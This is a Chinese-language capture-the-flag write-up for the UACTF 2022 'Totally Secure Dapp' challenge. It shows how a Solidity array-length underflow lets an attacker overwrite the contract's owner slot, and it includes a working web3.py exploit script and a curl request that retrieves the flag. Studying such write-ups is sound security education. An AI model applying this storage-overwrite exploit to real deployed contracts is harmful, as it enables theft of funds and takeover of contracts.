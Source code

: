 ```yaml
---
title: Web - Totally Secure Dapp
description: 2022 | UACTF | Web
tags:
    - blockchain
---
```


## 题目

It's on the blockchain, and there's no way anything on the blockchain could ever have any vulnerabilities.

Note, because the contract is on Ropsten, some transactions might fail. If that happens, just keep retrying.

Get test ether from https://faucet.metamask.io/

https://totally-secure-dapp.vercel.app/

[:material-download: `totally-secure-dapp.zip`](static/totally-secure-dapp.zip)

## 解题思路

- https://totally-secure-dapp.vercel.app/ 主要提供了 `New Post` 和展示 Post 的功能，Post 记录上链
- 提供了两份合约代码，Post 相关操作函数位于 `TotallySecureDapp.sol`，当调用者为 `owner` 且合约账户的余额大于 `0.005` 以太时可以触发 `FlagCaptured` 事件

    ```js
    modifier onlyOwner() {
        require(msg.sender == _owner, 'Caller is not the owner');
        _;
    }

    function captureFlag() external onlyOwner {
        require(address(this).balance > 0.005 ether, 'Balance too low');
        _flagCaptured = true;
        emit FlagCaptured(msg.sender);
    }
    ```

- 除此之外，能够调用的函数有 `addPost`、`editPost`、`removePost` 和 `nPost`。注意到 `removePost` 中 `length` 的减法没有使用 `SafeMath` 或在使用前进行判断

    ```js
    function addPost(string title, string content) external {
        Post memory post = Post(title, content);
        _posts.push(post);
        _authors.push(msg.sender);
        emit PostPublished(msg.sender, _posts.length - 1);
    }

    function editPost(
        uint256 index,
        string title,
        string content
    ) external {
        _authors[index] = msg.sender;
        _posts[index] = Post(title, content);
        emit PostEdited(msg.sender, index);
    }

    function removePost(uint256 index) external {
        if (int256(index) < int256(_posts.length - 1)) {
            for (uint256 i = index; i < _posts.length - 1; i++) {
                _posts[i] = _posts[i + 1];
                _authors[i] = _authors[i + 1];
            }
        }
        _posts.length--;
        _authors.length--;
        emit PostRemoved(msg.sender, index);
    }

    function nPosts() public view returns (uint256) {
        return _posts.length;
    }
    ```

- 因为数组长度可控且可编辑指定下标的数组元素，接下来只需要通过 `editPost` 覆盖 `owner` 变量
    - `string` 类型的变量存储方式与 `address` 类型的不同，当长度小于 $32$ 字节时，元素存储在高位，低位存储字符串字节长度，当长度大于 $31$ 字节时，存储方式与数组类似
    - 建议通过 `_authors` 数组完成覆盖操作

    ```js
    // contract Initializable
    bool private _initialized;  // slot 0
    bool private _initializing; // slot 0

    // contract TotallySecureDapp is Initializable
    struct Post {
        string title;
        string content;
    } // 2 slots

    string public _contractId; // slot 1
    address public _owner; // slot 2
    address[] public _authors; // slot 3
    Post[] public _posts; // slot 4
    bool public _flagCaptured; // slot 5
    ```

- 另外，合约 `TotallySecureDapp` 不接受直接转账，所以需要一些特殊手段 >v< 比如 `selfdestruct`

    ```js
    function() external payable {
        revert('Contract does not accept payments');
    }
    ```

- 给 `TotallySecureDapp` 合约实例转账后，通过 web3py 与合约进行交互

    ```py
    from web3 import Web3
    import json, time

    # 在 https://infura.io/ 注册一个账号并创建一个项目
    w3 = Web3(Web3.HTTPProvider("https://ropsten.infura.io/v3/<api-key>"))

    account = w3.eth.account.from_key("<your-private-key>")

    contract_address = "<totallysecuredapp-instance-address>"

    abi = json.loads(open('abi.json').read())
    contract = w3.eth.contract(address=contract_address, abi=abi)

    # 先调用 removePost 使数组长度下溢出
    tx = contract.functions.removePost(1).buildTransaction({"from": account.address, "nonce": w3.eth.getTransactionCount(account.address)})
    signed_tx = account.signTransaction(tx)
    print(w3.eth.sendRawTransaction(signed_tx.rawTransaction).hex())

    time.sleep(30)  # 等待交易确认

    # 修改 owner
    index = 2**256 - int(Web3.soliditySha3(['uint256'], [3]).hex(), 16) + 2
    tx = contract.functions.editPost(index, "unimportant", "unimportant").buildTransaction({"from": account.address, "nonce": w3.eth.getTransactionCount(account.address)})
    signed_tx = account.signTransaction(tx)
    print(w3.eth.sendRawTransaction(signed_tx.rawTransaction).hex())

    time.sleep(30)

    # emit FlagCaptured
    tx = contract.functions.captureFlag().buildTransaction({"from": account.address, "nonce": w3.eth.getTransactionCount(account.address)})
    signed_tx = account.signTransaction(tx)
    print(w3.eth.sendRawTransaction(signed_tx.rawTransaction).hex())
    ```

- [TotallySecureDapp | Address 0x014a2a17aa06c26c660fb4a269ac87849d38fd0a | Etherscan](https://ropsten.etherscan.io/address/0x014a2a17aa06c26c660fb4a269ac87849d38fd0a#events) 可以看到 `FlagCaptured` 事件被成功触发了，但是 Flag 在哪？
- 起初以为是事件的返回值，但查日志也最多只能获得传参。想到是 Web 题，跑去翻了翻源码，发现 `pages/api/secret.ts` 中提供了获取 Flag 的接口，请求参数包括 `userAddress`、`contractAddress` 以及 `userId`

    ```ts
    const { userAddress, contractAddress, userId } = req.body as ReqData;
    ```

    ```ts
    const owner = await contract._owner();
    const flagCaptured = await contract._flagCaptured();
    const balance = await provider.getBalance(contractAddress);
    if (owner === userAddress && flagCaptured && balance.gt(parseEther('0.005'))) {
        const ids = db.collection('users').doc('ids');
        if (!ids) {
            res.status(500).json({ error: 'Failed to load ids' });
            return;
        }
        const id = (await ids.get()).get(userAddress.toLowerCase());
        if (id !== userId) {
            res.status(401).json({ error: 'Unauthorised' });
            return;
        }
        const flag = process.env.FLAG;
        res.status(200).json({ flag: flag });
        return;
    }
    ```

- 合约相关的条件都已满足，还差一个 `userId`，搜了搜源码，在 `components/connector/ConnectModal.tsx` 下找到了

    ```tsx
    window.localStorage.setItem('user-id', id);
    ```

- 在控制台输入 `localStorage.getItem('user-id')` 即可获得对应账户的 `userId`
- 调用 API 接口

```bash
$ curl -d '{"userAddress":"0xe09f6d20E2522F6B971b4516744946CF17BE8432", "contractAddress":"0x014A2a17AA06C26C660FB4A269aC87849d38Fd0A", "userId": "RIHIaESfxzilmF10mmBpH"}' -H "Content-Type: application/json" -X POST https://totally-secure-dapp.vercel.app/api/secret
{"flag":"UACTF{23411y_m394_5u5_f149}"}
```

### Flag

> UACTF{23411y_m394_5u5_f149}